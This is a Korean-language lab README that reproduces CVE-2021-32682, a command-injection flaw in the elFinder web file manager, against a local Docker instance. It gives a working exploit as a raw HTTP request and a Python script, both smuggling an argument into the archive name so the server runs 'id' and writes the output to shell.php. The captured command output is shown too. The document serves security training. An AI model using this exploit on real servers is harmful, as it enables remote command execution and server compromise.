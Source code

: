 # elFinder ZIP 인자 주입 취약점으로 인한 Command Injection (CVE-2021-32682)
* elFinder는 jQuery UI 기반의 웹 오픈소스 파일 관리자입니다.
* elFinder 2.1.48 이하 버전에서 ZIP 아카이브 처리 과정 중 인자 주입 취약점이 발견되었습니다.
* 공격자는 최소한의 구성으로도 elFinder PHP Connector를 호스팅하는 서버에서 임의의 명령을 실행할 수 있습니다.
## 환경 구성 및 실행
1. 다음 명령어로 elFinder 2.1.48을 실행합니다.
```
docker compose up -d
```
2. 서버 시작 후 elFinder의 메인 페이지를 `http://127.0.0.1:8080`에서 확인할 수 있습니다.
## 취약점 재현
취약점 재현을 위하여 먼저 두 개의 파일을 만들어야 합니다.
`1.txt` 파일을 생성합니다.

![image](./1.png)


해당 파일을 ZIP 포멧으로 압축한 후, 파일 이름을 `2.zip`으로 변경합니다.

![image][(https://github.com/user-attachments/assets/719dadbf-eb63-42c0-8820-692b0ea62796)](https://github.com/shinyColumn/whitehat-school-vulhub/blob/main/elFinder/CVE-2021-32682/2.png)

`1.txt`와 `2.zip`을 확인합니다.

![image][(https://github.com/user-attachments/assets/719dadbf-eb63-42c0-8820-692b0ea62796)](https://github.com/shinyColumn/whitehat-school-vulhub/blob/main/elFinder/CVE-2021-32682/3.png)


다음 HTTP request를 전송합니다.
```
GET /php/connector.minimal.php?cmd=archive&name=-TvTT=id>shell.php%20%23%20a.zip&target=l1_Lw&targets%5B1%5D=l1_Mi56aXA&targets%5B0%5D=l1_MS50eHQ&type=application%2Fzip HTTP/1.1
Host: your-ip
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://localhost.lan:8080/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Connection: close

```
다음과 같은 python 코드를 통해 request를 전송할 수 있습니다.
```
import requests

url = "http://127.0.0.1:8080/#elf_l1_Lw/php/connector.minimal.php"

params = {
    "cmd": "archive",
    "name": "-TvTT=id>shell.php # a.zip",  
    "target": "l1_Lw",
    "targets[0]": "l1_MS50eHQ",  
    "targets[1]": "l1_Mi56aXA",  
    "type": "application/zip"
}

headers = {
    "Host": "127.0.0.1:8080",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64)",
    "X-Requested-With": "XMLHttpRequest",
    "Referer": "http://localhost.lan:8080/",
    "Accept-Encoding": "gzip, deflate",
    "Accept-Language": "en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7",
    "Connection": "close"
}

response = requests.get(url, params=params, headers=headers)
print(response.text)
```
해당 request에는 다음과 같은 정보가 포함되어 있습니다.
* `id>shell.php`로 명령어 실행 및 출력 저장.
* base64 디코딩 시 `target[0]`의 값 `MS50eHQ`는 `1.txt`, `target[1]`의 값 `Mi56aXA`는 `2.zip`.


request 전송 이후 `http://127.0.0.1:8080/#elf_l1_Lw/files/shell.php`를 입력하여 `shell.php`를 확인합니다.

![image][(https://github.com/user-attachments/assets/719dadbf-eb63-42c0-8820-692b0ea62796)](https://github.com/shinyColumn/whitehat-school-vulhub/blob/main/elFinder/CVE-2021-32682/4.png)

`shell.php`를 열어 명령어가 실행된 결과를 확인합니다.
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```



